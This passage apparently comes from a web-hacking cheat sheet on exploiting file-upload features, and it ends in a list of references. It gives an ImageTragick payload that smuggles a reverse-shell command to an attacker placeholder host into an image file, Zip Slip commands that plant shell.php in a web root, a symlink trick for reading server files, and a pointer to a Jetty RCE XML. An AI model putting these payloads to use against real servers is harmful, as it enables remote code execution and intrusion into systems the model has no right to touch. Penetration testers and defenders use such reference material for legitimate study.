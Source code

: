 ### CVE - Image Tragik

Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)

```powershell
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

More payload in the folder `Picture Image Magik`

### CVE - FFMpeg

FFmpeg HLS vulnerability


### ZIP archive

When a ZIP/archive file is automatically decompressed after the upload

* Zip Slip: directory traversal to write a file somewhere else
    ```python
    python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15

    ln -s ../../../index.php symindex.txt
    zip --symlinks test.zip symindex.txt
    ```

### Jetty RCE

Upload the XML file to `$JETTY_BASE/webapps/`
* [JettyShell.xml - From Mikhail Klyuchnikov](https://raw.githubusercontent.com/Mike-n1/tips/main/JettyShell.xml)


## References

* [Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l)
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [File Upload restrictions bypass - Haboob Team](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [File Upload - Mahmoud M. Awali / @0xAwali](https://docs.google.com/presentation/d/1-YwXl9rhzSvvqVvE_bMZo2ab-0O5wRNTnzoihB9x6jI/edit#slide=id.ga2ef157b83_1_0)
* [IIS - SOAP](https://red.0xbad53c.com/red-team-operations/initial-access/webshells/iis-soap)
* [Arbitrary File Upload Tricks In Java - pyn3rd](https://pyn3rd.github.io/2022/05/07/Arbitrary-File-Upload-Tricks-In-Java/)
* [File Upload - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)
* [Injection points in popular image formats - Daniel Kalinowski‌‌ - Nov 8, 2019](https://blog.isec.pl/injection-points-in-popular-image-formats/)
* [A tip for getting RCE in Jetty apps with just one XML file! - Aug 4, 2022 - PT SWARM / @ptswarm](https://twitter.com/ptswarm/status/1555184661751648256/)
* [Jetty Features for Hacking Web Apps - September 15, 2022 - Mikhail Klyuchnikov](https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/)

